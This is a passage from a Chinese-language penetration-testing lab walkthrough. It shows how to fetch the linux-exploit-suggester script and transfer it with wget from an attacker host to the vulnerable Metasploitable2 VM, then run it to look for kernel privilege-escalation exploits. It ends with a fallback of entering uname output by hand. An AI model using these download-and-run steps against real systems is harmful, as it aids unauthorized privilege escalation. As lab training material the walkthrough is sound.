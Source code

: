 ```bash
https://github.com/mzet-/linux-exploit-suggester
```

##### 使用方法

和之前一样，下载`linux-exploit-suggester.sh` 到云主机:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O /tmp/linux-exploit-suggester.sh
```

并上传到靶机`Metasploitable2`:

```bash
wget 192.168.122.1:8000/linux-exploit-suggester.sh -P /tmp
```

![图片描述](..\images\2021-01-23_130.jpg)

添加执行权限并执行脚本：

```bash
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

不幸的是，提示 bash 版本过低不支持运行该脚本：

![图片描述](..\images\2021-01-23_131.jpg)

大多数时候是可以直接运行的，但是如果偶尔遇到这种情况，可以采用手动录入内核信息的方式。

在 Metasploitable2 上运行`uname -a`查询主机信息，并将输出结果复制下来：

![图片描述](..\images\2021-01-23_132.jpg)

